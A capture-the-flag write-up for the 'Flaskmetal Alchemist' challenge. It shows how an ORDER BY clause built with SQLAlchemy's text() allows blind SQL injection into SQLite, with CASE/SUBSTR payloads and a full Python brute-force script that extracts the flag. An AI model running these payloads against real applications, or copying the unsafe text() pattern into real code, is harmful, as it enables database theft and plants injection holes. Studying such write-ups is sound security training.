

# Flaskmetal Alchemist

```
Edward has decided to get into web development, and he built this awesome application that lets you search for any metal you want. Alphonse has some reservations though, so he wants you to check it out and make sure it's legit.

NOTE: this flag does not follow the usual MD5 hash style format, but instead is a short style with lower case flag{letters_with_underscores}
```

## Challenge

> TL;DR: Unsafe usage of SQLAlchemy library leading to SQLite Blind SQL injection

We are given the main bulk of the challenge source code in this challenge, so we can actually set up a local instance. In this case, it might not be necessary as the amount of code is really small.

The directory structure of the given files are:

```
.
├── Dockerfile
├── requirements.txt
└── src
    ├── app.py
    ├── database.py
    ├── models.py
    └── seed.py
```

In `database.py`, we see that the challenge uses SQLite as the database engine. We also see that the [SQLAlchemy](https://www.sqlalchemy.org/) library is being used:

```py
from sqlalchemy import create_engine
from sqlalchemy.orm import scoped_session, sessionmaker
from sqlalchemy.ext.declarative import declarative_base

engine = create_engine("sqlite:////tmp/test.db")
```

In `models.py`, we see that the challenge has 2 tables, 1 is called `metals` and the other 1 is called `flag` (boy do I wonder which table contains what we want 🤣):

```py
class Metal(Base):
    __tablename__ = "metals"
    atomic_number = Column(Integer, primary_key=True)
    symbol = Column(String(3), unique=True, nullable=False)
    name = Column(String(40), unique=True, nullable=False)

    def __init__(self, atomic_number=None, symbol=None, name=None):
        self.atomic_number = atomic_number
        self.symbol = symbol
        self.name = name


class Flag(Base):
    __tablename__ = "flag"
    flag = Column(String(40), primary_key=True)

    def __init__(self, flag=None):
        self.flag = flag
```

In `seed.py` the function populates the SQLite tables with the metals and flag data.

The main logic of the challenge is found in `app.py`:

```py
@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "POST":
        search = ""
        order = None
        if "search" in request.form:
            search = request.form["search"]
        if "order" in request.form:
            order = request.form["order"]
        if order is None:
            metals = Metal.query.filter(Metal.name.like("%{}%".format(search))) # [1]
        else:
            metals = Metal.query.filter(
                Metal.name.like("%{}%".format(search))
            ).order_by(text(order)) # [2]
        return render_template("home.html", metals=metals)
    else:
        metals = Metal.query.all()
        return render_template("home.html", metals=metals)
```

We see that in a `POST` request, the input parameters `search` and `order` are used as part of the SQLAlchemy query builder. This means that we could potentially influence the final query to be executed.

At [1], we see that our input parameter `search` is being used in the `filter()` [function](https://docs.sqlalchemy.org/en/14/orm/query.html#sqlalchemy.orm.Query.filter) of SQLAlchemy. Unfortunately, this function will sanitize our input and we would not be able to perform SQL injection here.

However, at [2], observe that inside the `order_by()` function, the `text()` [function](https://docs.sqlalchemy.org/en/14/core/sqlelement.html#sqlalchemy.sql.expression.text) is used to wrap around our `order` variable. This function accepts Raw SQL query strings, and this is where our injection point is at.

To prove our theory, we will attempt to inject quotes into both input fields and see the results. Injecting into the `search` parameter:



Injecting into the `order` parameter:


Since our injection point is at the `ORDER BY` part, we will not be able to `UNION SELECT` at this stage. This leaves us with a blind SQL injection challenge. In order to extract information, we can sort by different columns, or sort by `ASC` or `DESC` for a single column. Our injection string can therefore be something like:

```sql
(CASE WHEN (SELECT SUBSTR(flag,1,1) FROM flag)='f' THEN atomic_number ELSE symbol END) ASC
```

which will sort the results in `ASC` order by:
* `atomic_number` if the first character of the column `flag` in the table `flag` is the letter `f`;
* `symbol` otherwise

Injecting that query above into the challenge site, we see that the first row of the response table is:


We then changed the injected query to:

```sql
(CASE WHEN (SELECT SUBSTR(flag,1,1) FROM flag)='z' THEN atomic_number ELSE symbol END) ASC
```

which should show a different first row in the response table:


Since it indeed showed a different sorting order of the table, we can confirm that the SQL injection worked. We can now opt to write a script that can retrieve the flag for us:

```py
# pwn.py

from multiprocessing import Pool
import re
import requests
import string

pool = None

def guess_flag():
    for i in range(1, 41):
        guess_alpha(i)

def guess_alpha(n):
    global pool
    pool = Pool(10)
    charmap = string.printable
    raw_query = "(CASE WHEN (SELECT SUBSTR(flag,{},1) FROM flag)='[CHAR]' THEN atomic_number ELSE symbol END) ASC".format(n)
    for char in charmap:
        query = raw_query.replace("[CHAR]", char)
        pool.apply_async(brute, [query, char], callback=callback)
    pool.close()
    pool.join()

def callback(result):
    if result:
        pool.terminate()
        print(result, end="")

def brute(guess, char):
    url = "http://challenge.nahamcon.com:30453/"
    data = {
        "search": "",
        "order": "{}".format(guess)
    }
    res = requests.post(url, data=data)
    out = re.search("<td>(.+)</td>", res.text)
    if out.group(1) != "Actinium":
        return char
    return False

guess_flag()
```

Running the script, we were able to exfiltrate the flag:


